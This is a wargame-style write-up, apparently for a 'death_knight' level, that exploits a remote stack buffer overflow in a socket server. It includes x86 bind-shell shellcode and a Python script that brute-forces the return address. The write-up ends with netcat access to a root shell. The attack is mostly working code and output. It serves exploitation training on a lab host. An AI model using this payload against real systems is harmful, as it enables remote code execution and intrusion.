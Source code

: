 # Vulnerability
```
char buffer[40];
recv(client_fd, buffer, 256, 0);
```
This program copys 256bytes on buffer so that code, buffer overflow occurs and I can overwrite SFP & RET address.

# Exploitation
This program uses socket programming so I have to write a python code to do buffer overflow by using socket.

First, make a python code simply:
```python
from socket import *
from struct import *

HOST = "192.168.196.128"
PORT = 6666

shellcode = ""
payload = ""

s = socket(AF_INET, SOCK_STREAM)
s.connect((HOST, PORT))

print s.recv(100)
print s.recv(10)
s.send(payload)
s.close()
```
Now, I need to make shellcode. I used `gdb-peda` to make shellcode:
```
gdb-peda$ shellcode generate x86/linux bindport 7777 127.0.0.1
# x86/linux/bindport: 84 bytes
# port=7777, host=127.0.0.1
shellcode = (
    "\x31\xdb\x53\x43\x53\x6a\x02\x6a\x66\x58\x99\x89\xe1\xcd\x80\x96"
    "\x43\x52\x66\x68\x1e\x61\x66\x53\x89\xe1\x6a\x66\x58\x50\x51\x56"
    "\x89\xe1\xcd\x80\xb0\x66\xd1\xe3\xcd\x80\x52\x52\x56\x43\x89\xe1"
    "\xb0\x66\xcd\x80\x93\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0"
    "\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53"
    "\x89\xe1\xcd\x80"
)
```
This code will open 7777 port and I will connect to that port.

The payload will be:
```
---------------------------------------------------------------
| A*44 | RET(shellcode's address) | NOP * 100 | Shellcode(84) |
---------------------------------------------------------------
```

As I don't know where is buffer's address, I will use for loop and brute force that address.

```
pawn1454@ubuntu:~$ nc 192.168.196.128 7777

id
uid=0(root) gid=0(root) euid=520(death_knight) egid=520(death_knight)
my-pass
euid = 520
got the life
```

# Payload
```python
from socket import *
from struct import *

HOST = "192.168.196.128"
PORT = 6666

# x86/linux/bindport: 84 bytes
# port=7777, host=127.0.0.1
shellcode = (
    "\x31\xdb\x53\x43\x53\x6a\x02\x6a\x66\x58\x99\x89\xe1\xcd\x80\x96"
    "\x43\x52\x66\x68\x1e\x61\x66\x53\x89\xe1\x6a\x66\x58\x50\x51\x56"
    "\x89\xe1\xcd\x80\xb0\x66\xd1\xe3\xcd\x80\x52\x52\x56\x43\x89\xe1"
    "\xb0\x66\xcd\x80\x93\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0"
    "\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53"
    "\x89\xe1\xcd\x80"
)

for i in range(0xFF, 0x00, -1):
    for j in range(0xFF, 0x00, -20):
        payload = ""
        payload = payload + "A"*44
        payload = payload + chr(j) + chr(i) + "\xff\xbf"
        payload = payload + "\x90"*100
        payload = payload + shellcode
        
        s = socket(AF_INET, SOCK_STREAM)
        s.connect((HOST, PORT))

        print "[*] ret address: " + hex(j) + " " + hex(i)
        print s.recv(100)
        print s.recv(10)
        s.send(payload)
        s.close()
```
